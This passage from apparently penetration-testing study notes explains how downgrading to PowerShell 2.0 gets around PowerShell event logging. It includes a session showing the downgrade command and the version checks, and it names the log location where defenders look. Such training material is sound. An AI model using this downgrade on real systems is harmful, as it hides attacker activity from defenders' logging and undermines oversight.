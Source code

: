 Powershell event logging was introduced as a feature with Powershell 3.0 and forward. If downgrading is possible we can bypass the event logging.

```powershell-session
PS C:\htb> Get-host

Name             : ConsoleHost
Version          : 5.1.19041.1320
InstanceId       : 18ee9fb4-ac42-4dfe-85b2-61687291bbfc
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
DebuggerEnabled  : True
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> powershell.exe -version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\htb> Get-host
Name             : ConsoleHost
Version          : 2.0
InstanceId       : 121b807c-6daa-4691-85ef-998ac137e469
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> get-module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     0.0        chocolateyProfile                   {TabExpansion, Update-SessionEnvironment, refreshenv}
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     0.7.3.1    posh-git                            {Add-PoshGitToProfile, Add-SshKey, Enable-GitColors, Expand-GitCommand...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PSReadLineKeyHandler...
```

to check of the logs are being written access `Applications and Services Logs > Microsoft > Windows > PowerShell > Operational`

### Checking Defenses
